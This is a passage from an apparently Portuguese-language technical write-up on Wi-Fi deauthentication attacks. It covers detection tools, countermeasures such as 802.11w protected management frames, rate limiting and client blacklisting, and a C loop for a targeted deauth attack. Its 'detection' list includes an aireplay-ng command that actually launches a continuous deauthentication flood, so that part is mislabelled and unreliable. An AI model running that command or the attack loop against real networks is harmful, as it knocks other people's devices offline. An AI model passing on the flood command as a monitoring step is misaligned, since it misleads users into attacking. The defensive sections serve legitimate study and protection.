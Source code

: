 ### 2. Ferramentas de Detecção
```bash
# Monitoramento de frames 802.11
airodump-ng wlan0mon

# Detecção específica de deauth
aireplay-ng --deauth 0 -a AP_MAC wlan0mon

# IDS wireless
kismet
hostapd com logging detalhado
```

### 3. Contramedidas Eficazes

#### 3.3.1 802.11w (PMF - Protected Management Frames)
```c
// Configuração no AP
wifi_config.ap.pmf_cfg = {
    .capable = true,
    .required = true  // Forçar PMF para todos os clientes
};
```

#### 3.3.2 Rate Limiting
```c
// Limite de frames de deauth por cliente
#define MAX_DEAUTH_PER_CLIENT_PER_SEC 2
#define DEAUTH_RATE_WINDOW_SEC 10
```

#### 3.3.3 Blacklisting Automático
```c
typedef struct {
    uint8_t mac[6];
    uint32_t deauth_count;
    time_t first_deauth;
    bool blocked;
} client_monitor_t;
```

## Variações do Ataque

### 1. Targeted Deauth
Ataque direcionado a cliente específico:
```c
void targeted_deauth_attack(uint8_t *target_mac) {
    for (int i = 0; i < TARGETED_DEAUTH_COUNT; i++) {
        send_deauth_frame(target_mac);
        vTaskDelay(pdMS_TO_TICKS(50));  // Intervalo rápido
    }
}
```

